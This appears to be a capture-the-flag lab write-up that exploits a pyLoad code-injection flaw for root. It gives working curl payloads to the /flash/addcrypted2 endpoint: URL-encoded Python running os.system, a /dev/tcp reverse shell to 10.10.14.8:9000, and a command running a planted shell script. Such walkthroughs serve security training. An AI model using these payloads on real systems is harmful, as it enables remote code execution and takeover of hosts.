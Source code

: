 The current release version of pyLoad is 0.4.20 and the version running on this machine is unknow, but it is vulnerable to that CVE

```
curl -i -s -k -X $'POST'     -H $'Host: 127.0.0.1:1337' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184'     --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa'     $'http://127.0.0.1:1337/flash/addcrypted2'
```

![itworks](Pasted image 20230730185618.png)

As we can see below, if we ls /tmp we can see that the /tmp/pwnd directory is created.

![confirm-that-it-works](Pasted image 20230730185635.png)

now lets see if we can get a rev-sell running:

![nc-listener](Pasted image 20230730185825.png)

I used CyberChef to URL encode the Rev Shell:

![cyberchef](Pasted image 20230730191521.png)

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"sh%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E8%2F9000%200%3E%261\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:1337/flash/addcrypted2'
```

![fail](Pasted image 20230730191732.png)

Looks like it errors out, since we have access to the user on the machine lets copy over a shell and see if we can use this exploit to run it

![copy-the-shell](Pasted image 20230730192149.png)

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20%2Fhome%2Fsau%2Fshell%2Esh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:1337/flash/addcrypted2'
```
## Root

we have root!

![root](Pasted image 20230730192401.png)

![files](Pasted image 20230730192538.png)

![pawn](Pasted image 20230730192515.png)